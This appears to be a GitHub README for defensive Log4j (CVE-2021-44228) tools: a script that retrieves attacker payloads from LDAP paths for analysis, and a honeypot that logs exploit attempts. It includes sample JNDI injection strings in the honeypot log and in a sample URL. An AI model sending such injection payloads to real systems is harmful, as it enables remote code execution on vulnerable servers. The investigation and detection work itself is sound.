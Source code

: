 # Log4jTools
Tools for investigating Log4j CVE-2021-44228

![Screen Shot 2022-06-01 at 10 28 05 PM](https://user-images.githubusercontent.com/38732378/171537849-9404b854-ac26-47fe-8446-362d2e1c36a3.png)


## Bug explanation and Demo
https://www.youtube.com/watch?v=0-abhd-CLwQ

## FetchPayload.py (Get java payload from ldap path provided in JNDI lookup).
Requirements: curl (system), requests (python)

Example command:
```
python FetchPayload.py ldap://maliciouserver:1337/path

[+] getting object from ldap://maliciouserver:1337/path
[+] exploit payload: http://maliciouserver:80/Exploit.class
[+] seeing if attacker left behind un-compile payload http://maliciouserver:80/Exploit.java
[x] failed to find payload Exploit.java
[+] trying to fetch compiled payload http://maliciouserver:80/Exploit.class
[+] found payload and saved to file Exploit.class_
```

## SimpleHoneypot.py (honeypot to catch exploit attempts based on presence of '${' ).
Requirements: python3, asyncore

Example command:
```
python3 SimpleHoneypot.py

[2021-12-09 13:00:00,000] Possible CVE-2021-44228 Attempt: 127.0.0.1:1111 -> port 8080 - GET /?id=${jdni:ldap://127.0.0.1:1389/hax} HTTP/1.1

```

## Sample URL:

http://kgb.fyi:443/?id=${jdni:ldap://133.33.33.331389/HELLO-CLASS}
